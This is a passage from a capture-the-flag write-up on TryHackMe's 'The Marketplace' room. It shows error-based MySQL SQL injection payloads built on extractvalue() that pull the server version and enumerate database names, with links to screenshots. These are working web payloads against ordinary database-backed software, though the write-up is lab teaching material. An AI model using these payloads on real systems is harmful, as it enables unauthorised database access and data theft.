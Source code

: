 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a34.png)

Found an **Error-Based SQL Injection** vulnerability! I'll use [this cheat sheet](https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/) to do it.

**Let's retrieve it's MySQL version:**
```sql
1 AND extractvalue(rand(),concat(0x3a,version()))--
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a35.png)

- MySQL version:8.0.21

**Retrieve database names:**
```sql
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 0,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 1,1)))--
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a36.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a37.png)
